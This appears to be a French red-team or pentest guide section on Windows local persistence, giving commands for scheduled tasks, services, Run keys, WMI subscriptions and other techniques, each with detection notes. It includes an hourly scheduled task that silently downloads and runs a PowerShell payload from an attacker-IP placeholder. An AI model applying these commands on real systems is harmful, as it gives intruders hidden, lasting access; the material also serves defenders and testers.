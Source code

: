 # VII.A. Techniques de Persistance Locales

La persistance locale vise à maintenir l'accès à une machine spécifique compromise. Même si l'accès au domaine est perdu, un pied-à-terre sur une machine clé peut être suffisant pour relancer des opérations.

## 1. Tâches Planifiées (Scheduled Tasks)

*   **Description :** Créer une tâche qui s'exécute à intervalles réguliers, au démarrage, ou lors d'un événement spécifique pour lancer un payload.
*   **Outils / Commandes :**
    *   **`schtasks.exe` (Windows natif) :**
        ```batch
        # Créer une tâche qui lance un payload au démarrage du système
        schtasks /create /tn "MaPersistance" /tr "C:\chemin\vers\payload.exe" /sc ONSTART /ru SYSTEM
        # Créer une tâche qui se lance toutes les heures
        schtasks /create /tn "MaPersistanceHoraire" /tr "powershell.exe -nop -w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://<IP_ATTAQUANT>/payload.ps1')" /sc HOURLY /ru <UTILISATEUR_COMPROMIS> /rp <MOT_DE_PASSE_SI_NECESSAIRE>
        ```
    *   **PowerShell `Register-ScheduledTask` :**
        ```powershell
        $action = New-ScheduledTaskAction -Execute "C:\chemin\vers\payload.exe"
        $trigger = New-ScheduledTaskTrigger -AtLogon
        Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "PersistanceLogon" -User "SYSTEM" -RunLevel Highest
        ```
*   **Détection :** Surveiller la création de nouvelles tâches planifiées (Event ID 4698, 106), examiner les tâches existantes.

## 2. Services Windows

*   **Description :** Créer un nouveau service ou modifier un service existant pour qu'il exécute un code malveillant. Les services peuvent être configurés pour démarrer automatiquement.
*   **Outils / Commandes :**
    *   **`sc.exe` (Windows natif) :**
        ```batch
        # Créer un nouveau service
        sc create "MonServicePersistant" binPath= "C:\chemin\vers\payload_service.exe" start= auto DisplayName= "Mon Service Persistant"
        sc start "MonServicePersistant"
        # Modifier un service existant (attention, peut casser des fonctionnalités)
        # sc config "NomServiceExistant" binPath= "C:\chemin\vers\payload.exe"
        ```
    *   **PowerShell `New-Service` :**
        ```powershell
        New-Service -Name "PSPersistSvc" -BinaryPathName "C:\chemin\vers\payload_service.exe" -DisplayName "PowerShell Persistent Service" -StartupType Automatic
        Start-Service -Name "PSPersistSvc"
        ```
*   **Détection :** Surveiller la création de nouveaux services (Event ID 4697, 7045), examiner les configurations des services (binPath, etc.).

## 3. Clés de Registre (Run, RunOnce, etc.)

*   **Description :** Ajouter des entrées dans des clés de registre spécifiques qui sont exécutées au démarrage de Windows ou à l'ouverture de session d'un utilisateur.
*   **Clés Communes :**
    *   `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
    *   `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
    *   `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`
    *   `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
    *   `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit` (plus risqué à modifier)
    *   `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell` (plus risqué à modifier)
*   **Outils / Commandes :**
    *   **`reg.exe` (Windows natif) :**
        ```batch
        reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "MaPersistanceRun" /t REG_SZ /d "C:\chemin\vers\payload.exe" /f
        ```
    *   **PowerShell `Set-ItemProperty` :**
        ```powershell
        Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "PSPersistRun" -Value "C:\chemin\vers\payload.exe"
        ```
*   **Détection :** Surveiller les modifications de ces clés de registre (Sysmon Event ID 12, 13, 14). Utiliser Autoruns de Sysinternals.

## 4. DLL Hijacking

*   **Description :** Placer une DLL malveillante avec le même nom qu'une DLL légitime dans un chemin où une application la chargera en premier.
*   **Scénarios :**
    *   Applications qui chargent des DLLs depuis leur répertoire courant avant les répertoires système.
    *   Applications avec des chemins de recherche de DLLs mal configurés.
*   **Outils :** Process Monitor (ProcMon) pour identifier les DLLs manquantes ou chargées depuis des chemins non standards.
*   **Détection :** Surveiller le chargement de DLLs depuis des emplacements inhabituels. Intégrité des fichiers.

## 5. WMI Event Subscriptions

*   **Description :** Créer un consommateur d'événements WMI permanent qui exécute une action (script, commande) en réponse à un événement WMI (ex: démarrage du système, connexion utilisateur, intervalle de temps).
*   **Composants :**
    *   **Event Filter :** Définit l'événement déclencheur.
    *   **Event Consumer :** Définit l'action à exécuter (ex: `ActiveScriptEventConsumer` pour VBS/JS, `CommandLineEventConsumer` pour des commandes).
    *   **FilterToConsumerBinding :** Lie le filtre au consommateur.
*   **Outils / Commandes :**
    *   **PowerShell :**
        ```powershell
        # Exemple (simplifié) pour exécuter un script VBS toutes les 5 minutes
        # Créer le filtre
        $FilterArgs = @{name='PersistFilter'; EventNamespace='root\cimv2'; QueryLanguage="WQL"; Query="SELECT * FROM __InstanceModificationEvent WITHIN 300 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 300 AND TargetInstance.SystemUpTime % 300 = 0"}
        $Filter=Set-WmiInstance -Class __EventFilter -Namespace root\subscription -Arguments $FilterArgs
        # Créer le consommateur (ActiveScriptEventConsumer)
        $ConsumerArgs = @{name='PersistConsumer'; ScriptingEngine='VBScript'; ScriptText='CreateObject("WScript.Shell").Run "calc.exe"'}
        $Consumer=Set-WmiInstance -Class ActiveScriptEventConsumer -Namespace root\subscription -Arguments $ConsumerArgs
        # Lier les deux
        Set-WmiInstance -Class __FilterToConsumerBinding -Namespace root\subscription -Arguments @{Filter=$Filter; Consumer=$Consumer} | Out-Null
        ```
    *   **Outils spécialisés :** `WMI_Persistence.ps1` (PowerSploit), `SharpWMI`.
*   **Détection :** Difficile. Examiner les objets WMI dans l'espace de noms `root\subscription`. Sysmon Event ID 19, 20, 21.

## 6. COM Hijacking (Component Object Model)

*   **Description :** Modifier des clés de registre COM pour rediriger l'appel d'un objet COM légitime vers un code malveillant.
*   **Clés typiques :** `HKCU\Software\Classes\CLSID\`, `HKLM\Software\Classes\CLSID\`
*   **Détection :** Surveiller les modifications des clés de registre COM. Utiliser Autoruns.

## 7. Raccourcis (.LNK) et Fichiers d'Aide (.CHM) Modifiés

*   **Description :** Modifier des fichiers `.LNK` (raccourcis) existants ou en créer de nouveaux pour qu'ils exécutent un payload en plus de leur action normale. Des fichiers `.CHM` malveillants peuvent aussi exécuter du code.
*   **Détection :** Vérifier les cibles des raccourcis, en particulier ceux dans les dossiers de démarrage ou sur le bureau.

## 8. Office Application Startup (Macros, Add-ins)

*   **Description :** Utiliser les fonctionnalités de démarrage d'applications Office (ex: `Word\STARTUP`, `Excel\XLSTART`, modèles avec macros auto-exécutables, add-ins malveillants).
*   **Détection :** Examiner les dossiers de démarrage Office, les add-ins installés, les paramètres de sécurité des macros.

## 9. Bits Jobs (Background Intelligent Transfer Service)

*   **Description :** Créer un job BITS qui télécharge et exécute un payload après un événement ou à un moment donné.
*   **Outils :** `bitsadmin.exe` (déprécié mais souvent présent), cmdlets PowerShell BITS (`Start-BitsTransfer`, `Add-BitsFile`, `Set-BitsTransfer -CompletionJob`).
*   **Détection :** Lister les jobs BITS (`bitsadmin /list /allusers`), surveiller l'utilisation de `bitsadmin.exe`.

Ces techniques peuvent être combinées et adaptées. La furtivité est souvent un objectif clé. 